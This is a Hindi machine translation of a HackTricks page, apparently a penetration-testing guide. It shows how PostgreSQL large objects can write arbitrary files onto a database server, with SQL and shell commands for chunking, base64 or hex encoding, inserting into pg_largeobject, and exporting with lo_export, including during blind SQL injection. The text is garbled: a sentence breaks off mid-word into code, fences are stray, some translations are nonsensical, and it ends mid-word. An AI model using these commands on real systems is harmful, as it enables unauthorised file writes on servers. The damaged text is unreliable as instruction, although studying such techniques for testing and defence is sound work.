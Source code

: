 <details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **मुझे** **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

### PostgreSQL Large Objects

PostgreSQL एक संरचना प्रदान करता है जिसे **बड़े ऑब्जेक्ट्स** के रूप में जाना जाता है, जिसका उपयोग `pg_largeobject` तालिका के माध्यम से किया जा सकता है, जो छवियों या पीडीएफ दस्तावेज़ जैसे बड़े डेटा प्रकारों को संग्रहित करने के लिए डिज़ाइन किया गया है। यह उपाय `COPY TO` फ़ंक्शन के ऊपर एक लाभप्रद दृष्टिकोण प्रदान करता है क्योंकि यह डेटा को फ़ाइल सिस्टम में **निर्यात करने** की अनुमति देता है, जिससे मौलिक फ़ाइल की एक सटीक प्रतिरूपण बनाए रखा जा सकता है।

इस तालिका में **एक पूरी फ़ाइल को संग्रहित करने** के लिए, एक ऑब्ज
```bash
split -b 2048 your_file # Creates 2KB sized files
```
एक्सटेंशन को बेस64 या हेक्स में एन्कोड करने के लिए नीचे दिए गए कमांड का उपयोग किया जा सकता है:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**महत्वपूर्ण**: इस प्रक्रिया को स्वच्छ-पाठ बाइट्स के 2KB के टुकड़ों में भेजने के लिए सुनिश्चित करें। हेक्स एन्कोडेड फ़ाइलें आकार में दोगुनी होने के कारण प्रति चंक 4KB डेटा की आवश्यकता होगी, जबकि बेस64 एन्कोडेड फ़ाइलें सूत्र `ceil(n / 3) * 4` का पालन करती हैं।

बड़े ऑब्जेक्ट्स की सामग्री को डीबगिंग के उद्देश्यों के लिए देखा जा सकता है:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### `lo_creat` और Base64 का उपयोग

बाइनरी डेटा को स्टोर करने के लिए, पहले एक LOID बनाया जाता है:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
### नियंत्रण की अवश्यकता होने पर, जैसे कि एक ब्लाइंड SQL Injection का उपयोग करते समय, `lo_create` को एक निर्दिष्ट LOID निर्दिष्ट करने के लिए पसंद किया जाता है।

डेटा टुकड़े फिर इस प्रकार से डाले जा सकते हैं:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
```
विरासत और संभावित रूप से उपयोग के बाद बड़े ऑब्जेक्ट को निर्यात और हटा सकते हैं:
```
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### `lo_import` और हेक्स का उपयोग

`lo_import` फ़ंक्शन का उपयोग एक बड़े ऑब्जेक्ट के लिए एक एलओआईडी बनाने और निर्दिष्ट करने के लिए किया जा सकता है:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
निम्नलिखित ऑब्जेक्ट निर्माण के बाद, प्रति पृष्ठ डेटा डाला जाता है, सुनिश्चित करते हुए कि प्रत्येक टुकड़ा 2KB से अधिक नहीं है:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
इस प्रक्रिया को पूरा करने के लिए, डेटा निर्यात किया जाता है और बड़े ऑब्जेक्ट को हटा दिया जाता है:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### सीमाएँ

यह नोट किया गया है कि **बड़े ऑब्जेक्ट्स में ACLs** (पहुंच नियंत्रण सूची) हो सकते हैं, जो संभावित रूप से आपके उपयोगकर्ता द्वारा बनाए गए ऑब्ज
